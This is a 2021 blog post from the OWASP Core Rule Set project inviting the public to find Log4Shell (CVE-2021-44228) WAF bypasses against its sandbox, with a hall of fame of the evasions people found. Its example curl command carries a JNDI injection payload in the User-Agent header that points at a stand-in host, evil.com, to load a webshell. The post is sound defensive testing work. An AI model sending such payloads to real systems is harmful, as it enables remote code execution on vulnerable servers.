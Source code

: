 ```yaml
---
author: dune73
categories:
  - Blog
date: '2021-12-16T13:01:59+01:00'
permalink: /20211216/public-hunt-for-log4j-log4shell-evasions-waf-bypasses/
title: Public Hunt for log4j / log4shell Evasions / WAF Bypasses
url: /2021/12/16/public-hunt-for-log4j-log4shell-evasions-waf-bypasses/
---
```



We have been updating our detection for the infamous CVE-2021-44228 vulnerability and its siblings for several days now. With the new experimental rule 1005, we think we really have decent detection capabilities now. Read up on this development in the separate blog post [CRS and Log4j / Log4Shell / CVE-2021-44228](https://coreruleset.org/20211213/crs-and-log4j-log4shell-cve-2021-44228/).  
  
Right before the log4j CVE was published, we took up our [CRS Sandbox](https://coreruleset.org/20211209/introducing-the-crs-sandbox/) that lets you test payloads against various CRS installations.  
  
We have now combined the [](https://coreruleset.org/20211209/introducing-the-crs-sandbox/)CRS Sandbox and the log4j detection to give you access to a live system with our new rule 1005 (and the expanded 932130). Successful bypasses will be listed in the Hall-of-Fame below.

#### How test my bypass?

```
$ curl -H 'x-crs-version: 3.4.0-dev-log4j' -H 'x-format-output: txt-matched-rules' -H 'User-Agent: ${jndi:ldap://evil.com/webshell}' https://sandbox.coreruleset.org/
```

The important bit is the custom HTTP header `x-crs-version: 3.4.0-dev-log4j`:[ ](<x-crs-version: 3.4.0-dev-log4j>)With this version string you get onto our new instance that carries the latest versions of the log4j attack detection. The other instances are vanilla CRS tags. They won't get the new rules / capabilities until we do a new release (and given we're usually not add new rules to existing stable releases in order to avoid introducing new false positives, this won't be anytime soon).

#### Rules to get into the Hall-of-Fame

You need to do three things:

- You need to pull off a bypass against the sandbox.
- You need to tell us about the bypass by submitting your payload via mail to security at coreruleset.org.
- You need to declare that this is in fact a working exploit.

We do not have the capacity to determine whether bypasses actually work as an exploit against log4j. So we kind of need to take your word for it.

If somebody in the community has the knowledge and the capacity to support us with this discussion, then please get in touch.

#### Hall-of-Fame

- Dominik Strecker, Syracom Schweiz AG : *Bypass via an XML attribute due to broken XPath selector in our rule 1005.*

##### Honorary mentions

- *Denis Augsburger ([@denisaugsburger](https://twitter.com/denisaugsburger)), TWTeam Switzerland : Bypass of rule 1005 with a spectacular evasion, that was detected by extended rule 932130*
- *Matej Sustr, Slovakia: Bypass of rule 1005 with an alternative evasion to Denis Augsburger's bypass, also detected by rule 932130*.
- *Matej Sustr, Slovakia: Bypass of rule set with an interesting evasion that depends on server side decoding before hitting log4j*.

Denis Augsburger has found a way around 1005 and we might have to update the rule. The problem is that his evasion is exploiting a fundamental mis-conception of our rule. We still think we are on the safe side thanks to 932130, but investigation continues.

The 2nd bypass of Matej Sustr is also very interesting because it goes undetected entirely. It exploit a vanilla log4j, though. It takes a special use case where Java code decodes the payloads before sending it to log4j.

#### Changelog

2021-12-16 12:30 CET: Published  
2021-12-20 10:30 CET: Added Dominik Strecker to hall of fame  
2021-12-20 14:00 CET: Added Syracom Schweiz AG to Dominik's name  
2021-12-23 16:40 CET: Added Denis Augsburger, TWTeam, under Honorary mentions  
2022-01-07 14:30 CET: Added Matej Sustr under Honorary mentions
